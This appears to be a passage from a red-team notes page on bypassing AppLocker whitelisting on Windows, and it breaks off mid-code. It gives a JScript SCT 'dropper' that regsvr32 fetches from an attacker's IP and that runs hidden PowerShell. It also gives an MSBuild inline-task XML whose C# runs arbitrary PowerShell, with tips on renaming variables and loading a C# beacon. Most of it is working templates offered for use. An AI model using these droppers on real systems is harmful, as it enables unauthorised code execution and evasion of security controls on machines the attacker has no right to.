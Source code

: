 ##### _SCT payload & Regsvr32 exec method \- application whitelisting:_
This payload can be used as an application whitelisting bypass method in a AppLocker enabled environment where 'Script Rules" \(CLM\) is not enabled \(4/5\)\. Sinds CLM must be disabled to actually use this method in the first place, it is advised to directly run PS command to reflectively load any C\# beacon payload\. 
- 1\. Modify the following code and save it as dropper\.sct \(can hold multiple commands to run\):
    ```XML
    <?XML version="1.0"?>
    <scriptlet>
    <registration
        progid="New"
        classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
        <script language="JScript">
            <![CDATA[
                runC = "powershell.exe <COMMAND>";
                new ActiveXObject("WScript.Shell").Run(runC,0,true);
            ]]>
        </script>
    </registration>
    </scriptlet>
    ```
- 2\. Run the dropper\.sct file from a remote location: `regsvr32.exe /u /n /s /i:http://<own ip>/dropper.sct scrobj.dll`

##### _XML payload:_
- 1\. Create XML file, modify some variable names, add any PS command you would like to run and save it as dropper\.xml;
    ```XML
    <Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
        <Target Name="newProjectTest">
            <RandomClassName />
        </Target>
        <UsingTask
            TaskName="RandomClassName"
            TaskFactory="CodeTaskFactory"
            AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
            <Task>
                <Reference Include="System.Management.Automation" />
                <Code Type="Class" Language="cs">
                    <![CDATA[
                        using System;
                        using System.IO;
                        using System.Diagnostics;
                        using System.Reflection;
                        using System.Runtime.InteropServices;
                        using System.Collections.ObjectModel;
                        using System.Management.Automation;
                        using System.Management.Automation.Runspaces;
                        using System.Text;
                        using Microsoft.Build.Framework;
                        using Microsoft.Build.Utilities;
                        public class RandomClassName : Task, ITask {
                            public override bool Execute() {
                                string runCom = "<PS COMMAND>";
                                Runspace rspace = RunspaceFactory.CreateRunspace();
                                rspace.Open();
                                RunspaceInvoke scriptInv = new RunspaceInvoke(rspace);
                                Pipeline pipel = rspace.CreatePipeline();
                                pipel.Commands.AddScript(runCom);
                                pipel.Invoke();
                                rspace.Close();
                                return true;
